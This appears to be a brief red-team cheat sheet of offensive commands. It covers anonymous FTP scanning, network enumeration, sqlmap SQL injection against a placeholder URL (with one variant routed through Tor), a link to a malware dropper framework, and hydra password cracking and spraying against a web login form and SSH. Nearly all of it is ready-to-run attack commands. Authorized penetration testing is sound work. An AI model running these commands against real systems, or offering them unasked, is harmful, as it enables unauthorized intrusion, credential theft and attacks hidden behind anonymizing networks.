 # Red teaming notes
Script &amp; Notes for red teams operations

# load local scripts aliases
source install.sh

# ftp anonymous scanner
ftpany 1.1.1.1

# ftp anonymous scanner with ping check
ftpany 1.1.1.1 --ping=True  

# enumeration
ping ip
whois ip
tracert ip

# database
sqlmap -u "http://website.com?id1=10&id2=10"

# sqlmap && tor
sqlmap -u "http://website.com?id1=10&id2=10" --tor --tor-type=SOCKS5


# malware repo
https://github.com/D4Vinci/Dr0p1t-Framework

# hydra pwd crack
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 http-post-form "login.php:username-^USER^&password=^PASS^:Error"
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 ssh

# hydra pwd spray attack
hydra -L users.txt -P passwords.txt 192.168.0.1 ssh -u



